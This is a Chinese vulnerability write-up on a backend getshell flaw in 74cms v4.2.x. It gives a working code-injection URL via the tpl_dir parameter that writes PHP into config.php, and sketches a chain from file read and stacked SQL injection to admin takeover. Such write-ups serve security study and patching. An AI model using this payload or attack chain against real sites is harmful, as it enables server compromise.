


# 74cms v4.2.1-v4.2.129-后台 getshell 漏洞

> 原文：[http://book.iwonder.run/0day/74cms/新版 74cms v4.2.1-v4.2.129-后台 getshell 漏洞.html](http://book.iwonder.run/0day/74cms/新版 74cms v4.2.1-v4.2.129-后台 getshell 漏洞.html)

## 0x00 前言

厂商：74cms 下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html) 关于版本： 新版的 74cms 采用了 tp3.2.3 重构了，所以可知底层是 tp，74cms 新版升级是后台升级的，所以先将将升级方法。 注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms 升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包) 2， 将下载好的包进行安装 3， 进入后台点击查看如果不是最新版的话，请点击升级！ 4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决 5， 搜索文件 74cms\upload\Application\Admin\Controller\ApplyController.class.php 6， 查找所有$_SERVER['HTTP_HOST'] 改为 [http://baidu.com](http://baidu.com) 即可

## 0x02 漏洞演示


```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

shell:http://74cms.test/Application/Home/Conf/config.php
路径：\74cms\upload\Application\Home\Conf\config.php 
```




## 0x03 漏洞原理

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php 
```



```
路径： 74cms\upload\Application\Common\Controller\BackendController.class.php 
```


## 0x04 题外话-认真版 getshell 方法

认真版 getshell 方法： 实际上想要进行 getshell 利用组合漏洞是很简单的事情。我的前台日到后台的 getshell 方法是这样的。 首先利用-任意文件读取漏洞-读取系统中的 hash 值 然后在通过漏洞-前台 sql 注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行 mysql 双语句插入一条管理员用户 在通过这个后台 getshell 漏洞 即可完成一套日穿

## 四、参考链接

> [https://www.yuque.com/pmiaowu/bfgkkh/wecilm](https://www.yuque.com/pmiaowu/bfgkkh/wecilm)

